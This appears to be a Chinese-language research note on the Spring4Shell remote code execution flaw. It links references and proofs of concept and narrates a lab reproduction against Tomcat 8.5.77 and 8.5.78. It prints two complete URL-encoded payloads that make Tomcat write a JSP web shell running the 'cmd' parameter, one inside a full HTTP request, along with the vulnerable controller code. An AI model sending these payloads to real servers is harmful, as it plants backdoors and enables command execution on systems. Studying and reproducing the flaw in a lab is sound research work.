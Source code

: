 参考：
- [Spring 框架漏洞集合](https://misakikata.github.io/2020/04/Spring-%E6%A1%86%E6%9E%B6%E6%BC%8F%E6%B4%9E%E9%9B%86%E5%90%88/)
- [Spring 全家桶各类 RCE 漏洞浅析](https://paper.seebug.org/1422/#_3)
- [spring actuator restart logging.config rce](https://landgrey.me/blog/21/)
- https://github.com/LandGrey/SpringBootVulExploit
- [Spring Boot Fat Jar 写文件漏洞到稳定 RCE 的探索](https://landgrey.me/blog/22/)
- [CVE-2021-22060: Additional Log Injection in Spring Framework (follow-up to CVE-2021-22096)](https://tanzu.vmware.com/security/cve-2021-22060)



## Spring RCE
影响范围：
-  [2.5,2.5.6.SEC02)

## PoC
- https://github.com/craig/SpringCore0day/blob/main/exp.py
- https://github.com/lunasec-io/Spring4Shell-POC/blob/master/exploit.py


```
    headers = {"suffix":"%>//",
                "c1":"Runtime",
                "c2":"<%",
                "DNT":"1",
                "Content-Type":"application/x-www-form-urlencoded"

    }

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

准备复现，
刚从tomcat官网下了个tomcat-8.5.78: https://dlcdn.apache.org/tomcat/tomcat-8/v8.5.78/bin/apache-tomcat-8.5.78-windows-x64.zip

结果失败了，
![image](https://user-images.githubusercontent.com/30398606/161372147-431252a3-0a8e-472d-8ef9-1212d0781f1a.png)

```
Invalid property 'class.module.classLoader.resources' of bean class [java.lang.Module]: Could not instantiate property type [org.apache.catalina.WebResourceRoot] to auto-grow nested property path; nested exception is org.springframework.beans.BeanInstantiationException: Failed to instantiate [org.apache.catalina.WebResourceRoot]: Specified class is an interface
```

很快啊，原来是：
> Effectively disable the WebappClassLoaderBase.getResources() method as it is not used and if something accidently exposes the class loader this method can be used to gain access to Tomcat internals.

- https://tomcat.apache.org/tomcat-8.5-doc/changelog.html

所以目前的payload对于tomcat作为web容器的利用方式下，影响范围是：tomcat < 8.5.78

那就下载8.5.77:
- https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.77/bin/apache-tomcat-8.5.77-windows-x64.zip

tomcat换了之后依然没有成功。
![image](https://user-images.githubusercontent.com/30398606/161372361-0c85d1ca-1a4a-46b1-862a-7c7c19156635.png)
可能因为我是直接在windows上双击startup.bat导致日志直接输出到控制台，而没有机会写入到文件？
原来是使用这个：https://github.com/craig/SpringCore0day/blob/main/exp.py
导致有个引号的bug吧。
![image](https://user-images.githubusercontent.com/30398606/161375232-2b243cef-2e90-415a-9320-b8f894b3ffef.png)


使用这个成功了：
https://github.com/lunasec-io/Spring4Shell-POC
```
POST /java-sec-code-1.0.0/login3 HTTP/1.1
Host: 192.168.183.129:8088
User-Agent: python-requests/2.20.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 698

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

对应代码：
```java
    @RequestMapping("/login2")
    public void login2(@RequestBody User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }


    @RequestMapping("/login3")
    public void login3(User user) {
        System.out.println(user.getUsername());
        System.out.println(user.getPassword());
    }
```
其中login2这个endpoint要求请求的Content-Type是json类型。

### Ref
- [CVE-2010-1622: Spring Framework execution of arbitrary code](https://seclists.org/fulldisclosure/2010/Jun/456)
- [Spring Framework - Arbitrary code Execution](https://www.exploit-db.com/exploits/13918)
- [Spring Core RCE 0day｜文末报告附件](https://mp.weixin.qq.com/s/P-NEJzUUjIyemkSe_RbicQ)
- https://github.com/spring-projects/spring-framework/commit/7f7fb58dd0dae86d22268a4b59ac7c72a6c22529
